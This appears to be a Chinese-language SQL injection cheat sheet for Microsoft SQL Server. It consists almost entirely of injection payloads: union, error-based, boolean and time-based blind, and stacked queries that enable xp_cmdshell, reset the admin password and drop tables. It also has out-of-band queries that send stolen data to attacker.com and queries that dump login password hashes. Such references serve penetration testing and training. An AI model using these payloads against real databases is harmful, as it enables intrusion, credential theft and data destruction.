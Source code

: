 ## 联合注入

```sql
SELECT user UNION SELECT @@version
SELECT user UNION (SELECT @@version)
SELECT user,system_user UNION (SELECT @@version,null)
SELECT * FROM yourtable ORDER BY [numberOfColumns]
SELECT @@version; SELECT @@version --
```

## 报错注入

```sql
SELECT convert(int,(SELECT @@version))
SELECT cast((SELECT @@version) as int)
SELECT 1/@@version
```

|描述|查询语句|
|----|----|
|注入到当前查询中|SELECT CAST(@@version as int)|
|显示系统用户|SELECT CAST(SYSTEM_USER as int);|
|使用xml路径在一行中显示所有数据库|SELECT CAST((SELECT name,',' FROM master..sysdatabases FOR XML path('')) as int) SELECT CAST((SELECT name AS "data()" FROM master..sysdatabases FOR xml path('')) AS int);|
|显示服务器名称|SELECT CAST(@@SERVERNAME as int);|
|显示服务名称|SELECT CAST(@@SERVICENAME as int);|
|显示数据库|DECLARE @listStr VARCHAR(MAX);DECLARE @myoutput VARCHAR(MAX);SET @listStr = ''; SELECT @listStr = @listStr + Name + ',' FROM master..sysdatabases; SELECT @myoutput = SUBSTRING(@listStr , 1, LEN(@listStr)-1);SELECT CAST(@myoutput as int);|
|列出表|DECLARE @listStr VARCHAR(MAX);DECLARE @myoutput VARCHAR(MAX); SET @listStr = '';SELECT @listStr = @listStr + Name + ',' FROM MYDATABASE..sysobjects WHERE type = 'U'; SELECT @myoutput = SUBSTRING(@listStr , 1, LEN(@listStr)-1);SELECT CAST(@myoutput as int);|
|显示列|DECLARE @listStr VARCHAR(MAX);DECLARE @myoutput VARCHAR(MAX);SET @listStr = ''; SELECT @listStr = @listStr + Name + ',' FROM MYDATABASE..syscolumns WHERE id=object_id('MYTABLE'); SELECT @myoutput = SUBSTRING(@listStr , 1, LEN(@listStr)-1);select cast(@myoutput as int);|
|显示列值(将MYCOLUMN替换为*以选择所有列)|DECLARE @listStr VARCHAR(MAX);DECLARE @myoutput VARCHAR(MAX);SET @listStr = ''; SELECT @listStr = @listStr + Name + ',' FROM MYDATABASE..syscolumns WHERE id=object_id('MYTABLE'); SELECT @myoutput = SUBSTRING(@listStr , 1, LEN(@listStr)-1);select cast(@myoutput as int);|
|一次显示一个库名(增加TOP值可以获取下一条)|SELECT TOP 1 CAST(name as int) FROM sysdatabases WHERE name in (SELECT TOP 2 name FROM sysdatabases ORDER BY name ASC) ORDER BY name DESC|

## 盲注

布尔盲注
```sql
AND LEN(SELECT TOP 1 username FROM tblusers)=5 ; -- -

AND ASCII(SUBSTRING(SELECT TOP 1 username FROM tblusers),1,1)=97
AND UNICODE(SUBSTRING((SELECT 'A'),1,1))>64--
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'

AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)>90

SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

时间盲注
```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';
IF exists(*PARTIAL_BLIND_QUERY*) WAITFOR DELAY '00:00:02
```

OOB
```sql
'; DECLARE @myvar NVARCHAR(1024); SELECT @myvar = (SELECT TOP 1 name FROM sysobjects); EXEC('master..xp_dirtree ''http://'+@myvar+'.attacker.com''');
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'clr enabled', 1; RECONFIGURE;
'; EXEC sp_oacreate 'MSXML2.XMLHTTP', @object OUT; EXEC sp_oamethod @object, 'open', NULL, 'GET', ('http://attacker.com/?data=' + (SELECT @@version)), false; EXEC sp_oamethod @object, 'send'; --
```

## 堆叠查询
```sql
-- multiple SELECT statements
SELECT 'A'SELECT 'B'SELECT 'C'

-- updating password with a stacked query
SELECT id, username, password FROM users WHERE username = 'admin'exec('update[users]set[password]=''a''')--

-- using the stacked query to enable xp_cmdshell
-- you won't have the output of the query, redirect it to a file
SELECT id, username, password FROM users WHERE username = 'admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--

ProductID=1; DROP members--
```

## 查询语句

查看用户
```sql
SELECT CURRENT_USER
SELECT user_name();
SELECT system_user;
SELECT user;
```

查看版本
```sql
SELECT @@version
```

主机名
```sql
SELECT HOST_NAME()
SELECT @@hostname
SELECT @@SERVERNAME
SELECT SERVERPROPERTY('productversion')
SELECT SERVERPROPERTY('productlevel')
SELECT SERVERPROPERTY('edition');
```

库名
```sql
SELECT DB_NAME()
```

数据库凭据
```sql
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins
-- Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer
SELECT name, password_hash FROM master.sys.sql_logins
SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

列出数据库
```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases; -- Change delimeter value such as ', ' to anything else you want => master, tempdb, model, msdb   (Only works in MSSQL 2017+)
```

列
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, column_name FROM information_schema.columns
```

表
```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, table_name FROM information_schema.columns
SELECT STRING_AGG(name, ', ') FROM master..sysobjects WHERE xtype = 'U'; -- Change delimeter value such as ', ' to anything else you want => trace_xe_action_map, trace_xe_event_map, spt_fallback_db, spt_fallback_dev, spt_fallback_usg, spt_monitor, MSreplication_options  (Only works in MSSQL 2017+)
```
